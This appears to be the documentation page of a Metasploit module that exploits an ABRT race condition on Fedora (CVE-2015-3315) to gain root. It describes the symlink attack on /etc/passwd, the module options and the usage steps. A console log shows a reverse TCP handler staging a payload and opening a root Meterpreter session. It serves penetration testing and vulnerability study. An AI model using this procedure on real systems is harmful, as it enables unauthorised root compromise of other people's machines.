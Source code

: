 ## Description

  This module attempts to gain root privileges on Fedora systems with a vulnerable version of Automatic Bug Reporting Tool (ABRT) configured as the crash handler.


## Vulnerable Application

  A race condition in ABRT allows local users to change ownership of arbitrary files (CVE-2015-3315). This module uses a symlink attack on `/var/tmp/abrt/*/maps` to change the ownership of `/etc/passwd`, then adds a new user with UID=0 GID=0 to gain root privileges. Winning the race could take a few minutes.

  This module has been tested successfully on ABRT packaged versions:

  * 2.1.5-1.fc19 on Fedora Desktop 19 x86_64
  * 2.2.1-1.fc19 on Fedora Desktop 19 x86_64
  * 2.2.2-2.fc20 on Fedora Desktop 20 x86_64

  Fedora 21 and Red Hat 7 systems are reportedly affected, but untested.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/abrt_raceabrt_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new *root* session


## Options

  **USERNAME**

  Username for the new UID=0 user (default: random)

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf > use exploit/linux/local/abrt_raceabrt_priv_esc 
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/abrt_raceabrt_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Writing '/tmp/.C17d3UYQy' (64240 bytes) ...
  [*] Trying to own '/etc/passwd' - This might take a few minutes (Timeout: 900s) ...
  [+] Success! '/etc/passwd' is writable
  [*] Adding pauITBusGM user to /etc/passwd ...
  [*] Writing '/tmp/.u8zOz4c' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.137:38938) at 2018-02-03 21:29:56 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 20 (Linux 3.19.8-100.fc20.x86_64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

